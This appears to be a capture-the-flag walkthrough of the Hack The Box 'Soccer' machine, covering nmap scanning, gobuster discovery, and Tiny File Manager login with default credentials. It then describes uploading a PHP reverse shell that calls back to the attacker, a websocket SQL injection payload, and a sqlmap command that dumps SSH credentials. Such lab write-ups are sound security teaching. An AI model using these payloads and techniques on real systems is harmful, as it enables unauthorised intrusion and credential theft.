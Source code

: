 First is turn on the nmap
```
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Soccer - Index 
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Thu, 19 Oct 2023 15:35:50 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Thu, 19 Oct 2023 15:35:51 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.93%I=7%D=10/19%Time=653168F1%P=x86_64-pc-linux-gnu%r(i
SF:nformix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\
SF:r\n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\
SF:x20close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found\r
SF:\nContent-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type-O
SF:ptions:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nC
SF:ontent-Length:\x20139\r\nDate:\x20Thu,\x2019\x20Oct\x202023\x2015:35:50
SF:\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lan
SF:g=\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n<
SF:/head>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(H
SF:TTPOptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Po
SF:licy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143
SF:\r\nDate:\x20Thu,\x2019\x20Oct\x202023\x2015:35:51\x20GMT\r\nConnection
SF::\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<m
SF:eta\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>
SF:Cannot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"H
SF:TTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-
SF:src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x2
SF:0text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Thu,
SF:\x2019\x20Oct\x202023\x2015:35:51\x20GMT\r\nConnection:\x20close\r\n\r\
SF:n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"
SF:utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS
SF:\x20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2
SF:F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")
SF:%r(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnec
SF:tion:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We can see there 3 ports, but one look very intresting 9091, also we need to add soccer.htb into /etc/hosts. Now turn on gobuster.
I foud /tiny 

![image](https://github.com/Anogota/Soccer/assets/143951834/55e4fe7c-2314-44f8-8c2a-a863a3e4ff78)

Let's go google about it. I found this, and this work's Default username/password: admin/admin@123 and user/12345.
Also this version Tiny File Manager have a vulnerability RCE:

![image](https://github.com/Anogota/Soccer/assets/143951834/1705b470-1d26-42e0-926d-235b4b4c78f6)

First what we need to do is ```cp /usr/share/webshell/php/php-reverse-shell.php ~/HTB``` then change ip. Then run nc. But you can upload on tiny/uploads, in othere place u can't upload any *.php. Then go to http://soccer.htb/tiny/uploads/php-reverse-shell.php and you will get a shell

![image](https://github.com/Anogota/Soccer/assets/143951834/377d0450-c4bf-4ddd-898a-7d3d5cfaa196)

I found another subdomain let's also this add into /etc/hosts

![image](https://github.com/Anogota/Soccer/assets/143951834/a98025a7-fac2-453a-a14c-d40df22c31ef)

This site look's very symilar, but we can there singup let's create a account and look what's there.
Okay there nothing intresting only this

![image](https://github.com/Anogota/Soccer/assets/143951834/183ae68c-5afe-4915-8706-a7164cda0262)

turn on the burp and intercept the traffic maybe when we look deeper we will find something intresting. This websocks look's intresting i think there will be SQLi

![image](https://github.com/Anogota/Soccer/assets/143951834/34833323-7858-4d26-8aee-496988b45acc)

When i tryed {"id":"71080 OR 1=1"} i got Ticket Exists, now i'm sure there is a SQLi also i found this in source code, this help to create a request sqlmap
```
  var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
```

Here's sqlmap request:```sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 --batch``` Let's check what we can take by this.
Okay this looks intresting we need to modifay little bit our request.

![image](https://github.com/Anogota/Soccer/assets/143951834/7d558a17-d08d-48c5-9712-bdd37cc29a0e)

We got some credentials, lets go by this credentials log in to SSH
And we got this:

![image](https://github.com/Anogota/Soccer/assets/143951834/4a13c597-d857-48fd-bca7-4445c2969027)


